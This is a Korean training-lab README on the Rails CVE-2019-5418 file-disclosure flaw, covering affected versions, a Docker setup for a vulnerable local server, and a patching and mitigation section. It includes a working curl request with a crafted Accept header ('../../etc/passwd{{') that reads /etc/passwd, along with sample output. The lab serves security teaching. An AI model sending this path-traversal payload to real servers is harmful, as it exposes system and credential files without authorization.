

# Ruby on Rails 파일 내용 노출 취약점 (CVE-2019-5418)

> 화이트햇 스쿨 4기 - 하수로

> **주의:** 이 환경은 취약점 학습과 로컬 검증만을 위한 것입니다. 외부에 노출된 시스템이나 허가받지 않은 대상에는 사용하지 마세요.

## 요약

Ruby on Rails는 Ruby 기반의 웹 애플리케이션 프레임워크입니다. CVE-2019-5418은 Action View에서 발생한 파일 내용 노출 취약점입니다.

취약한 Rails 애플리케이션이 컨트롤러에서 `render file`을 사용해 애플리케이션 바깥의 파일을 렌더링할 때, Rails가 사용자의 `Accept` 헤더 값을 파일 경로 처리에 잘못 반영할 수 있습니다. 공격자는 조작된 `Accept` 헤더를 보내 서버 파일 시스템의 임의 파일을 읽을 수 있습니다.

이 실습 환경에서는 Rails 5.2.2를 사용해 `/robots` 엔드포인트를 만들고, `Accept: ../../../../../../../../etc/passwd{{` 헤더를 보내 `/etc/passwd` 파일이 노출되는지 확인합니다.

## 영향받는 버전

아래 버전이 영향을 받습니다.

- Action View 5.2.2.1 미만
- Action View 5.1.6.2 미만
- Action View 5.0.7.2 미만
- Action View 4.2.11.1 미만
- Action View 3.x

## 참고 자료

- <https://nvd.nist.gov/vuln/detail/CVE-2019-5418>
- <https://groups.google.com/g/rubyonrails-security/c/pFRKI96Sm8Q>
- <https://github.com/mpgn/CVE-2019-5418>
- <https://github.com/vulhub/vulhub/tree/master/rails/CVE-2019-5418>

## 환경 구성 및 실행

Dockerfile은 공식 Ruby 이미지를 기반으로 Rails 5.2.2 애플리케이션을 직접 구성합니다. 미리 만들어진 외부 취약 환경 이미지에는 의존하지 않습니다.

다음 명령어로 Docker 이미지를 빌드하고 취약한 Rails 서버를 실행합니다.

```bash
docker compose up -d --build
```

만약 `docker compose` 플러그인이 없다면, 강의자료에서 실습한 방식처럼 `docker build`와 `docker run`을 나눠서 실행할 수도 있습니다.

```bash
docker build -t rails-cve-2019-5418 .
docker run --name rails-cve-2019-5418 -p 3000:3000 -d rails-cve-2019-5418
```

서버가 실행되면 아래 주소로 접속할 수 있습니다.

```text
http://127.0.0.1:3000
```

실습이 끝난 뒤에는 다음 명령어로 컨테이너와 네트워크를 정리합니다.

```bash
docker compose down -v
```

`docker run` 방식으로 실행했다면 아래 명령어로 정리합니다.

```bash
docker rm -f rails-cve-2019-5418
```

## 취약점 재현

먼저 정상 요청을 보내 `/robots` 엔드포인트가 동작하는지 확인합니다.

```bash
curl -i http://127.0.0.1:3000/robots
```

그 다음 `Accept` 헤더를 조작해 `/etc/passwd` 파일을 읽습니다.

```bash
curl -i \
  -H 'Accept: ../../../../../../../../etc/passwd{{' \
  http://127.0.0.1:3000/robots
```

응답 본문에 `root:x:0:0:root:/root:/bin/bash`와 같은 `/etc/passwd` 내용이 포함되면 취약점이 재현된 것입니다.

같은 과정을 `poc.py`로도 확인할 수 있습니다.

```bash
python3 poc.py
```

## 실행 결과

정상 요청에서는 `robots.txt` 내용만 반환됩니다.

공격 요청에서는 조작된 `Accept` 헤더 때문에 Rails가 `/etc/passwd` 파일을 렌더링하여 반환합니다.



```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## 대응 방안

가장 확실한 대응은 Rails를 패치된 버전으로 업데이트하는 것입니다.

- Rails 5.2.x: 5.2.2.1 이상
- Rails 5.1.x: 5.1.6.2 이상
- Rails 5.0.x: 5.0.7.2 이상
- Rails 4.2.x: 4.2.11.1 이상

또한 컨트롤러에서 사용자 요청과 연결된 값을 기반으로 `render file`을 사용하는 코드는 피해야 합니다. 파일을 렌더링해야 한다면 허용된 경로만 사용하도록 제한하고, 사용자가 전달한 헤더나 파라미터가 파일 경로 결정에 영향을 주지 않도록 해야 합니다.

## 정리

CVE-2019-5418은 HTTP 요청 헤더 하나만으로 서버의 로컬 파일이 노출될 수 있는 취약점입니다. 인증 없이 파일을 읽을 수 있기 때문에 위험도가 높고, 특히 설정 파일이나 환경 파일이 노출되면 추가 공격으로 이어질 수 있습니다.

이번 실습에서는 Docker로 취약한 Rails 5.2.2 환경을 구성하고, `Accept` 헤더 조작을 통해 `/etc/passwd` 파일이 노출되는 과정을 확인합니다.
